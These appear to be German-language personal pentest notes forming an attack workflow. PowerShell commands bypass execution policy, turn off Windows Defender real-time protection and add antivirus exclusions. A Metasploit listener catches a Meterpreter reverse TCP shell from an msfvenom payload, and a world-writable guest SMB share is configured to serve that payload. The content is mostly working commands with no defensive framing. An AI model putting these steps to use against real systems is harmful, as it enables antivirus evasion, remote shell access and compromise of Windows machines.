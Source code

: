 # Notizen – 81a5terfr34k

---

## Windows: 

---

### Richtlinien mit Powershell Befehlen ändern 
- setzen (SET) 
- Anzeigen (Get) 

---

| Befehl                                                      | Beschreibung                       |
|-------------------------------------------------------------|------------------------------------|
| Get-ExecutionPolicy                                         | Ausführungsrichtlinien anzeigen    |
| Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass  | Skriptausführung zulassen          |
| Set-MpPreference -DisableRealtimeMonitoring $true           | Antivirenscanner ausschalten       |       
| Set-MpPreference -DisableRealtimeMonitoring $false          | Antivirenscanner einschalten       |
| Add-MpPreference -ExclusionExtension ".exe" ODER ".ps1"     | Ausnahmen hinzufügen (Dateityp)    |
| Add-MpPreference -ExclusionPath "C:\Lokaler-Pfad"           | Ausnahmen hinzufügen (Ordner)      |
| Add-MpPreference -ExclusionPath "\\192.168.x.x\SMB-Pfad"    | Ausnahmen hinzufügen (SMB/NAS)     |

---

--> Script ausführen mit: .\<scriptname>.ps1

---

## Linux:

---

- Payload erstellen: msfvenom
- Meterpreter sitzung Listener:

```bash
msfconsole
msf6> use exploit/multi/handler
msf6> set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6> set LHOST <kali IP>
msf6> set LPORT 4444
msf6> set ExitOnSession false
msf6> exploit -j
````

---

- smbshare Ordner erstellen: sudo mkdir -p /srv/smbshare
- smbshare Ordner zugriff erteilen: sudo chmod -R 777 /srv/smbshare
- Payload nach smbshare Ordner verschieben: mv ~/Schreibtisch/PayloadStub.exe /srv/smbshare/
- Inhalt von smbshare kontrollieren: ls -l /srv/smbshare
- SMB Dienst starten: sudo systemctl start smbd
- SMB Dienst status prüfen: sudo systemctl status smbd
- Zugriff auf smbshare testen: smbclient //localhost/share -N
- aktive Samba Konfiguration anzeigen: testparm ( /etc/samba/smb.conf)
- SMB Konfigurations-DATEI bearbeiten: sudo nano /etc/samba/smb.conf  
- NEUEN [share]-Block ganz unten im dokument erstellen mit:

````
[share]
   path = /srv/smbshare
   browsable = yes
   read only = no
   guest ok = yes
--> zusätzlich im [global]-Block ergänzen:
   map to guest = Bad User
````

- speichern: strg+0 
- schliessen: strg+x
- SMB Dienst neu starten: sudo systemctl restart smbd
